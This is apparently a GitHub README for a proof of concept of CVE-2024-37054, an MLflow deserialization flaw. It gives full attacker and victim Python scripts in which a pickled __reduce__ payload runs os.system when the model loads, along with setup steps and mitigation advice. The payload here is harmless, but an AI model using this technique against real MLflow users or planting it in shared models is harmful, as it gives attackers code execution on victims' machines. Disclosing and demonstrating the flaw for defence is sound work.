 <div align="center">


```
  __  __  _      _____  _      ___ __        __
 |  \/  || |    |  ___|| |    / _ \\ \      / /
 | |\/| || |    | |_   | |   | | | |\ \ /\ / / 
 | |  | || |___ |  _|  | |___| |_| | \ V  V /  
 |_|  |_||_____||_|    |_____|\___/   \_/\_/   
                                               
  ____    ____  _____   ____          ____     
 |  _ \  / ___|| ____| |  _ \  ___   / ___|    
 | |_) || |    |  _|   | |_) |/ _ \ | |        
 |  _ < | |___ | |___  |  __/| (_) || |___     
 |_| \_\ \____||_____| |_|    \___/  \____|    
                                                                 
```

### **CVE-2024-37054: MLflow Remote Code Execution PoC**

</div>

<div align="center">

[![CVE](https://img.shields.io/badge/CVE-2024--37054-red?style=for-the-badge)](https://nvd.nist.gov/vuln/detail/CVE-2024-37054)
[![License](https://img.shields.io/badge/License-MIT-blue?style=for-the-badge)](LICENSE)
[![GitHub](https://img.shields.io/badge/GitHub-NiteeshPujari-black?style=for-the-badge&logo=github)](https://github.com/NiteeshPujari)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-NiteeshPujari-blue?style=for-the-badge&logo=linkedin)](https://www.linkedin.com/in/NiteeshPujari/)

</div>

---

This repository contains a Proof of Concept (PoC) for **CVE-2024-37054**, a critical deserialization vulnerability in MLflow that allows for Remote Code Execution (RCE).

## 📚 Table of Contents
- [Vulnerability Details](#-vulnerability-details)
- [Proof of Concept (PoC)](#-proof-of-concept-poc)
- [Mitigation](#-mitigation)
- [References](#-references)
- [About the Author](#-about-the-author)

---

## 🚨 Vulnerability Details

-   **CVE ID**: `CVE-2024-37054`
-   **Summary**: A deserialization vulnerability exists in the `mlflow.pyfunc.load_model` function. An attacker can craft a malicious model containing a pickled payload. When a victim loads this model, the payload is deserialized via `cloudpickle.load`, leading to arbitrary code execution on the victim's machine.
-   **Products Impacted**: MLflow versions from `0.9.0` up to, but not including, `2.14.2`.
-   **Vulnerable Function**: `_load_pyfunc` within `mlflow/pyfunc/model.py`.

---

## 🛠️ Proof of Concept (PoC)

This PoC simulates two roles: an **Attacker** who uploads a malicious model and a **Victim** who loads it, triggering the RCE.

### 1. Environment Setup

The easiest way to set up a vulnerable MLflow server is by using the provided Dockerfile.

**Build and Run the Docker Container:**
```sh
# 1. Build the Docker image
docker build -t mlflow-vulnerable .

# 2. Run the container, mapping port 5000 to the host
docker run -p 5000:5000 --name mlflow-poc-server -it mlflow-vulnerable
```
Your vulnerable MLflow server is now running at `http://127.0.0.1:5000`.

### 2. Execution Steps

You will need two separate terminals on your host machine. Ensure you have a vulnerable version of `mlflow` installed locally (`pip install mlflow==2.14.1`) to run the client scripts.

#### **Part 1: Attacker - Log the Malicious Model**

In your first terminal, run the attacker's script to log the malicious model.

<details>
<summary>Click to view Attacker's Script (poc/log_malicious_model.py)</summary>

```python
# poc/log_malicious_model.py
import mlflow
import os

# The URI of your MLflow tracking server
MLFLOW_TRACKING_URI = "http://127.0.0.1:5000"
REGISTERED_MODEL_NAME = "rce-payload-model"

class MaliciousCodeWrapper(mlflow.pyfunc.PythonModel):
    def __init__(self):
        class CommandRunner:
            def __reduce__(self):
                cmd = 'echo ">>> RCE PAYLOAD EXECUTED SUCCESSFULLY <<<" && echo > pwned.txt'
                return (os.system, (cmd,))
        self.payload = CommandRunner()

    def predict(self, context, model_input):
        return "This model is a malicious payload."

if __name__ == "__main__":
    mlflow.set_tracking_uri(MLFLOW_TRACKING_URI)
    mlflow.set_experiment("Security Demos")
    with mlflow.start_run() as run:
        mlflow.pyfunc.log_model(
            artifact_path="model",
            python_model=MaliciousCodeWrapper(),
            registered_model_name=REGISTERED_MODEL_NAME
        )
    print(f"[*] Malicious model '{REGISTERED_MODEL_NAME}' has been logged.")
```
</details>

**Run it:**
```sh
python poc/log_malicious_model.py
```

#### **Part 2: Victim - Load the Vulnerable Model**

In your second terminal, run the victim's script to simulate loading the compromised model.

<details>
<summary>Click to view Victim's Script (poc/load_vulnerable_model.py)</summary>

```python
# poc/load_vulnerable_model.py
import mlflow

MLFLOW_TRACKING_URI = "http://127.0.0.1:5000"
REGISTERED_MODEL_NAME = "rce-payload-model"
MODEL_VERSION = 1 

if __name__ == "__main__":
    mlflow.set_tracking_uri(MLFLOW_TRACKING_URI)
    model_uri = f"models:/{REGISTERED_MODEL_NAME}/{MODEL_VERSION}"
    print(f"[*] VICTIM: Attempting to load model from URI: {model_uri}")
    print("[*] The payload will execute on the next line...")
    try:
        loaded_model = mlflow.pyfunc.load_model(model_uri)
        print("\n[*] Model loaded successfully.")
    except Exception as e:
        print(f"\n[!] An error occurred: {e}")
```
</details>

**Run it:**
```sh
python poc/load_vulnerable_model.py
```

### 3. Observe the Result
After running the victim's script, you will see the message **`/bin/sh: 1: >>> RCE PAYLOAD EXECUTED SUCCESSFULLY <<<: not found`** in the terminal, and a new file named `pwned.txt` will be created in your directory. This confirms successful command execution.

---

## 🛡️ Mitigation
-   **Upgrade MLflow**: Upgrade to version **2.14.2** or later, where this vulnerability has been patched.
-   **Never load untrusted models**: Only load ML models from sources you trust completely.

---

## 🔍 References
-   **NVD**: [https://nvd.nist.gov/vuln/detail/CVE-2024-37054](https://nvd.nist.gov/vuln/detail/CVE-2024-37054)
-   **Original Advisory**: [https://hiddenlayer.com/sai-security-advisory/2024-06-mlflow](https://hiddenlayer.com/sai-security-advisory/2024-06-mlflow)

---

## 👨‍💻 About the Author

This Proof of Concept was developed by **Pujari Niteesh**.

* **Cyber Security Research Engineer**
* **GitHub**: [NiteeshPujari](https://github.com/NiteeshPujari/)
* **LinkedIn**: [NiteeshPujari](https://www.linkedin.com/in/NiteeshPujari/)
* **Website**: [www.niteesh.in](https://www.niteesh.in)

